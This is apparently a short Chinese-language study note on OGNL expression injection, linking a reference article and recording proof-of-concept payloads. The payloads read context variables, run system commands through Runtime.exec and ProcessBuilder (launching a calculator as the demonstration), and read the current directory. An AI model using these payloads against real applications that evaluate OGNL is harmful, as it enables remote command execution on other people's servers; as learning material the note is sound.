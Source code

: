 # 	OGNL表达式注入

## 前言

具体参考

https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x01-OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E5%9F%BA%E7%A1%80

只记录POC，具体的内容等学structs的时候再去了解了。



## 表达式注入漏洞

```java
//获取context里面的变量
 #user
 #user.name

//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")


//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//获取当前路径
@java.lang.System@getProperty("user.dir")
```

